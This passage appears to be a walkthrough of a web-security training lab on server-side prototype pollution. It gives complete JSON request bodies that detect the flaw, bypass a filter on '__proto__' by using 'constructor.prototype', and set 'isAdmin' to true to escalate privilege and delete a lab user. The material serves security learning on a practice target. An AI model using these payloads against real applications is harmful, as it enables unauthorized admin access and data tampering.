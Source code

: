 Notice the status is reflected in the response:

    "error":{"status":411}

Now resend the invalid format JSON, notice the status code is exactly our custom one:

    {
        "error": {
            "expose": true,
            "statusCode": 411,
            "status": 411,
            "body": "{,}",
            "type": "entity.parse.failed"
        }
    }

### LAB: Bypassing flawed input filters for server-side prototype pollution

Try sending this as the body to `/my-account/change-address`:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "CJRV1tSvUfuNnxa5UXyoxqmKJ7LnHYbx",
        "__proto__": {
            "json spaces":10
        }
    }

Notice the `__proto__` keyword has been filtered by the server because the identation is not changed. Because `myObject.constructor.prototype` is equivalent to `myObject.__proto__` try sending this body:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "CJRV1tSvUfuNnxa5UXyoxqmKJ7LnHYbx",
        "constructor": {
            "prototype": {
                "json spaces":10
            }
        }
    }

Now the response has the correct identation as we specified, indicating a prototype pollution vulnerability. This time send this body to successfully escalate the privilege and delete Carlos:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "CJRV1tSvUfuNnxa5UXyoxqmKJ7LnHYbx",
        "constructor": {
            "prototype": {
                "isAdmin": true
            }
        }
    }
